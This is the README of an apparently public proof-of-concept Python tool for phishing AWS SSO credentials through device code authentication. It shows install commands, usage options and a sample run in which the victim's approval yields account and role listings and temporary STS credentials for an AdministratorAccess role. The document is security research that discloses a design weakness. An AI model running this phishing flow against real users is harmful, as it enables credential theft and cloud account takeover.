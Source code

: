 # AWS SSO Device code authentication

This repository contains Python code to generate an AWS SSO device code URL. Once a user used it to authenticate, it displays the list of AWS accounts and roles they have access to, and retrieves STS credentials inside them. It is a powerful phishing vector to which any identity provider implementing 'device code' authentication is vulnerable to by design (including AWS SSO but also Azure AD, etc.).

![](./screenshot.png)

Companion blog post: https://blog.christophetd.fr/phishing-for-aws-credentials-via-aws-sso-device-code-authentication/

*Note: This repository is pretty much useless since you can use the AWS CLI to achieve the same purpose - but it provides an interactive PoC to try it, and doesn't mess with your current AWS CLI configuration! :-)*

## Installation

```
python3 -m venv venv
source venv/bin/activate
pip install -r requirements.txt
```

## Usage

```
$ python main.py --help
usage: main.py [-h] -u START_URL -r REGION [-i SSO_TOKEN_FILE] [-o OUTPUT_FILE]

optional arguments:
  -h, --help            show this help message and exit
  -u START_URL, --sso-start-url START_URL
                        AWS SSO start URL. Example: https://mycompany.awssapps.com/start (default: None)
  -r REGION, --sso-region REGION
                        AWS region in which AWS SSO is configured (e.g. us-east-1) (default: None)
  -i SSO_TOKEN_FILE, --sso-token-file SSO_TOKEN_FILE
                        File to read the AWS SSO token from. If provided, no device code URL is generated (default: None)
  -o OUTPUT_FILE        File to write the retrieved AWS SSO token (default: None)
```

Example:

```
$ python3 main.py -u https://company.awsapps.com/start/ -r eu-west-1  -o /tmp/token
Creating temporary AWS SSO OIDC application
Initiating device code flow
Device code URL: https://device.sso.eu-west-1.amazonaws.com/?user_code=HKRD-BQQP
Waiting indefinitely for user to validate the AWS SSO prompt..
Successfully retrieved AWS SSO token!
> Dev account (11xxxxxxxxx)
  Prod account (545xxxxxxxxx)
  
  
 > AdministratorAccess
  ViewOnlyAccess
  (back to accounts list)

Here are your temporary STS credentials for the 'AdministratorAccess' role in the AWS account 'Dev account' (11xxxxx)

export AWS_ACCESS_KEY_ID=ASIAR..
export AWS_SECRET_ACCESS_KEY=Lj0..
export AWS_SESSION_TOKEN=IQo..
```

Example with an existing AWS SSO token:

```
$ python3 main.py -u https://company.awsapps.com/start/ -r eu-west-1 -i /tmp/token
```

## Troubleshooting

### "invalid_grant - Invalid grant provided"

Ensure you set the correct AWS SSO region. Given the AWS SSO start URL, you can see it using:

```
$ curl https://company.awsapps.com/start/ -s | grep 'region' 
    <meta name="region" content="eu-west-1"/>
```